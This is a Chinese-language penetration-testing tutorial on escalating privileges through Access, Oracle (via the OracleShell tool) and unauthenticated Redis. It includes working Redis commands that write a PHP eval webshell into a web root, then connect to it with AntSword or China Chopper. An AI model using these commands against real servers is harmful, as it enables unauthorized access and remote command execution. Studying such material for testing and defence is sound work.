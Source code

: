 **沙盒模式SandBoxMode参数含义**

- `0`：在任何所有者中禁止启用安全模式
- `1` ：为仅在允许范围内
- `2` ：必须在access模式下
- `3`：完全开启



### Oracle

Oracle数据库一般用于Java和jsp,如果jsp可以获取到后门的话，后门不需要提权，因为网站权限就是系统权限

1. **普通用户模式：**
   - 前提是拥有一个普通的Oracle连接账号。不需要DBA权限，可提权至DBA，并以Oracle实例运行的权限执行操作系统命令。

2. **DBA用户模式：**
   - 拥有DBA账号密码，可以省去自己手动创建存储过程的繁琐步骤，一键执行测试。（DBA账号是Oracle的最高权限）

   - 使用[Oracleshellv1.0工具](https://github.com/jas502n/oracleShell)，若账号是普通账号，选择普通模式，若账号是DBA账号，选择DBA模式。

3. **注入提升模式**
   - 拥有一个Oracle注入点，可以通过注入点直接执行系统命令，此种模式没有实现回显，需要自己验证。（前提是要有注入点）
   - 再配合Oracleshell进行命令执行



### redis

利用条件：

1. redis绑定在0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源IP访问等相关安全策略，直接暴露在公网。
2. 没有设置密码认证导致存在未授权访问漏洞
3. 服务器的redis账户的身份是root

下面介绍3中提权方法：

#### 写shell

利用以下命令：

```
config set：快捷修改redis配置。
dbfilename ：设置快照的文件名，默认是 dump.rdb
dir：默认redis文件保存路径
```

首先我们要猜到网站的目录地址，然后可以将dir设置为一个目录a，而dbfilename为文件名b，再执行save或bgsave，则我们就可以写入一个路径为a/b的任意文件。

```
config set dir /var/www/html/  
config set  dbfilename shell.php  
set x "\r\n\r\n<?php eval($_POST[cmd]);?>\r\n\r\n"  
save

\r\n\r\n代表换行的意思，用redis写入文件的会自带一些版本信息，如果不换行可能会导致无法执行。
```

然后利用蚁剑或中国菜刀进行连接即可
